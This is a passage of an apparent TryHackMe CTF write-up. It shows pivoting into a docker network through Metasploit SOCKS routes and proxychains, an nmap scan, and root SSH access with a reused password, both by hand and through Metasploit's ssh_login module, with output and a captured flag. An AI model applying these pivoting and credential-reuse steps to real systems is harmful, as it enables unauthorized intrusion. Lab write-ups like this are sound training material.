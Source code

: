 > We can now proxy calls from localhost (kali) using the defined metasploit routes to relay connections

- Test proxy: `curl --proxy socks5://127.0.0.1:1080 http://172.17.0.1`

> returns the html content seen @ 10.10.199.246

## Proxychains

- `sudo nano /etc/proxychains4.conf`
- add `socks5  127.0.0.1 1080` to the end and save

> Now make any call with `proxychains` infront of it

- `proxychains curl http://172.17.0.1` or
- `proxychains nmap -F -sV -sT 172.17.0.1`:

```console
Nmap scan report for 172.17.0.1
Host is up (0.065s latency).
Not shown: 98 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 8.33 seconds
```

> Port 22 is open on the docker host. Surely santa reused his credentials ;)

## Connect via SSH

### Either using proxychains
{: .no_toc}

- `proxychains ssh santa@172.17.0.1` & pw: `p4$$w0rd` -> root
- `ls` & `cat root.tx`:
`THM{47C61A0FA8738BA77308A8A600F88E4B}`

### Or Metasploit
{: .no_toc}

- `search ssh_login` & `use 0`
- set 'rhosts', 'username' & 'password' & `exploit`

```console
[*] 172.17.0.1:22 - Starting bruteforce
[+] 172.17.0.1:22 - Success: 'santa:p4$$w0rd' 'uid=0(root) gid=0(root) groups=0(root) Linux hostname 4.15.0-156-generic #163-Ubuntu SMP Thu Aug 19 23:31:58 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux '
[*] SSH session 6 opened (10.8.27.147-10.10.114.115:34142 -> 172.17.0.1:22) at 2022-12-12 11:55:00 -0500
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
